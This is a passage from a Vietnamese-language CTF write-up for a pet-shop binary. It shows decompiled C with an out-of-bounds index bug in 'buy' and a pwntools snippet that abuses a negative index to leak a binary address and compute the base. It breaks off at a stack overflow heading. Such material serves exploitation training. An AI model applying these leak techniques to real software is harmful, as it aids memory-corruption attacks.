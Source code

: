 Tóm tắt hàm `info` như sau: 
- Parse input theo cấu trúc `info | option`
- Có 3 `option` để lựa chọn:
  - `dog`
  - `cat`
  - `mine`: In ra toàn bộ thông tin `pet_list` của mình

### Bug Out-off-Bound 

Ở hàm `buy`, ta nhận thấy rằng `pet_type_idx` có thể nhận giá trị âm, từ đó gây nên bug OOB. 

```c
int __fastcall buy(char *a1)
{
    int pet_type_idx; // [rsp+1Ch] [rbp-424h] BYREF
    if ( (unsigned int)__isoc99_sscanf(a1, "%3s %d", pet_type, &pet_type_idx) != 2 )
        goto LABEL_x52C;

    --pet_type_idx;

    if ( pet_type_idx <= 3 )                    // OOB
        pet_list[pet_count]->type = cats[pet_type_idx];
}
``` 

Tận dụng chức năng in ra toàn bộ thông tin `pet_list` của hàm `info`. Ta sẽ leak được các giá trị của binary và libc. 

#### Leak binary
Mua một bé mèo với cú pháp `buy cat 1`. Do idx sẽ bị trừ đi một, vậy nên em mèo của ta sẽ có tên ở địa chỉ `cats[0]`. 

<img src="./10.png">

Nhìn xung quanh các giá trị lân cận, ta thấy có giá trị `0x0000555555558008` là địa chỉ binary. Ta hoàn toàn leak được giá trị đó với `idx = -2`.  

```python
buy("cat", -2, cyclic(1020)) 
info("mine")

ru(b"1. ")

binary_leak = u64(p.recv(6) + b"\x00\x00")
binary_base = binary_leak - 0x4008
log.info(f"binary leak = {hex(binary_leak)}")
log.info(f"binary base = {hex(binary_base)}")
```

#### Leak libc (Invisible)

Sau khi search trong memory, mình không thấy có địa chỉ nào phù hợp để leak ra libc. Vì vậy mình tạm hoãn công việc này tại đây. 

### Bug Stack Buffer Overflow
